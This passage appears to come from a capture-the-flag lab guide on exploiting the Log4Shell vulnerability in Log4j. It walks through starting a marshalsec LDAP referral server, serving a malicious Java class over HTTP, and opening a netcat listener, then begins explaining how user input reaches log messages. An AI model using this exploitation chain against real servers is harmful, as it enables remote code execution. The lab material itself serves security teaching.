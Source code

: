 <ol>
<li><strong> Run the LDAP Server:</strong></li>
</ol>
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”:

cd ~Desktop/log4shell/target

Next, start the LDAP server by running:

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://127.0.0.1:4242/#Exploit”

<strong>**You can get the ip address of the vm by running “ip addr show” in a terminal**</strong>

<strong>***</strong>127.0.0.1:4242 <strong>is the vm’s &lt;IP:PORT&gt;***</strong>

****<strong>It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct**** </strong>You should see the following output:

<ol start="2">
<li><strong>Run the Malicious Server:</strong></li>
</ol>
Open a new terminal and <u>make sure the active directory is the directory that contains your malicious .class file</u>. For simplicity, we have created “Desktop/log4shell/{flag_no}” for you to work in. <strong>Do not leave this directory. </strong>Run the server in “Desktop/log4shell/{flag_no}” by the following command:

python3 -m http.server 4242

***<strong>It is very important that this matches the port specified in the LDAP server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct***</strong>

You should see the following output:

<ol start="3">
<li><strong>Read data that is flowing on the network (This step is required for Flag 2 but is optional for the rest) :</strong></li>
</ol>
Open a terminal and run:

nc -nlvp &lt;your_desired_port&gt;

You should see the following output:

<h1>INTRO</h1>
Now that we are set up, let’s do a quick rundown of Log4j, how it works at a high level, and test that we are able to successfully call and exploit the application.

As you should know from the background and resource’s section, Log4j is an application logging library that outputs user defined program information. An example log statement would look like the following:

static Logger log = LogManager.getLogger(RestServlet.class.getName()); log.debug(“ApplicationId: {}”, applicationId);

The log statement above as you can see, defines the class, log level of the message and the actual message. Notice that we are injecting user input into the log message. This is where our vulnerability is.
